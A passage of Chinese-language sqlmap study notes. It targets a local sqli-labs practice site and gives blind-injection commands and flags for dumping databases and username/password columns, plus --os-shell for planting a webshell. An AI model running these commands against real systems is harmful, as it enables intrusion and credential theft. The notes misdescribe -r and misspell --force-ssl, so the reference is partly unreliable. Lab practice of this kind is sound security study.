.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=B -v 3
```

**时间盲注：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=T -v 3
```


### 爆破数据
```sql
● -r :以递归方式扫描指定目录下的所有文件。
● -u :连接目标网站并进行扫描。
● --dbs：列出数据库的名称。 示例：--dbs
● --tables：列出数据库中的所有表。 示例：--tables
● --columns：列出指定表中的所有列。 示例：--columns -T users
● --dump：导出指定表中的数据。 示例：--dump -T users
● --current-db 当前使用的数据库
● -D 库名 -T 表名 --columns
● -C 指定字段名，爆破具体数据 示例： -C username,password
● --batch 自动化
● --technique=u(联合查询)&&E(报错查询)&&B(布尔盲注)&&T(时间盲注)   选择盲注类型
● -force-ssl  可设置目标地址是https协议
● --os-shell  上马
● --level=5   搜索等级5

例：
 python sqlmap.py -r request.txt --batch --dbs
 python sqlmap.py -u url --batch --dbs
 python sqlmap.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbms=MySQL --technique=T -v 3 -D security -T users -C username,password --dump
```

